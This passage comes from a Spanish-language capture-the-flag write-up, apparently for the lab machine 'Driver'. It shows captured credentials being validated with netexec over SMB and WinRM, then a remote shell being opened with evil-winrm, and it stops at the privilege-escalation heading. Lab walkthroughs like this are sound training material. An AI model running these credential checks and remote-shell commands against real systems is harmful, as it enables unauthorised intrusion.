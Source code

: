 `Comprobamos` si las `credenciales` son válidas

```
# netexec smb 10.129.190.165 -u 'tony' -p 'liltony'           
SMB         10.129.190.165  445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.129.190.165  445    DRIVER           [+] DRIVER\tony:liltony 

# netexec winrm 10.129.190.165 -u 'tony' -p 'liltony'             
WINRM       10.129.190.165  5985   DRIVER           [*] Windows 10 Build 10240 (name:DRIVER) (domain:DRIVER)
WINRM       10.129.190.165  5985   DRIVER           [+] DRIVER\tony:liltony (Pwn3d!)
```

Como el `msrpc` está activado nos podemos `conectar` a la máquina víctima

```
# evil-winrm -i 10.129.190.165 -u 'tony' -p 'liltony'     
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\tony\Documents> whoami
driver\tony
```

Aquí podemos ver que efectivamente el usuario `tony` pertenece al grupo `Remote Management Users`

```
*Evil-WinRM* PS C:\Users\tony\Documents> net user tony
User name                    tony
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/7/2021 11:49:20 PM
Password expires             Never
Password changeable          9/7/2021 11:49:20 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   7/28/2024 5:05:47 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Users
Global Group memberships     *None
The command completed successfully.
```
## Privilege Escalation
